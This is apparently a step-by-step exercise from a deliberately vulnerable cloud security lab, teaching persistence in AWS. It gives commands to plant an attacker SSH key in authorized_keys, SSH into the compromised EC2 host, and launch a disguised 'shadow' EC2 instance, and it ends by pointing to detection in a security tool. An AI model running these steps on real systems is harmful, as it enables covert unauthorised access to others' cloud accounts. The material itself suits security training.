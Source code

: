 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
3. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
4. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
5. Using the reverse shell terminal, run the following commands What do you see? - A read/write mapped drive that includes the ssh folder containing the authorized_keys file.
```bash
ls /flappy
ls -alh /flappy/mapped_drive
ls -alh /flappy/mapped_drive/.ssh
```
6. Run the command using the output from step 3 to add your newly generated public key to the authorized key file on the .
```bash
echo "public key from Step 4" >> /flappy/mapped_drive/.ssh/authorized_keys
```
7. Run the command to get the IP address of the WebServer EC2 instance (this should match the Public IP in the AWS console):
```bash
curl ipconfig.io
```
8. SSH to the EC2 instance directly:
```bash
ssh -i attacker_key ubuntu@ip_address
```
At this point we've gained persistence to the underlying EC2 host. But what if the host is shut down or terminated? Let's now spin up a shadow EC2 instance using excessive AWS permissions.

9. Run the following commands to install jq and the AWS CLI:
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip" && unzip awscliv2.zip && ./aws/install && aws sts get-caller-identity
```

10. Run the following command to launch a new shadow EC2 instance:
```bash
aws ec2 run-instances \
    --instance-type t2.micro \
    --image-id ami-0aa2b7722dc1b5612 \
    --subnet-id $(aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
    --associate-public-ip-address
```


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

Note: Don't forget to substitute:
- ip_address in Step 8 for the IP address output from Step 7.
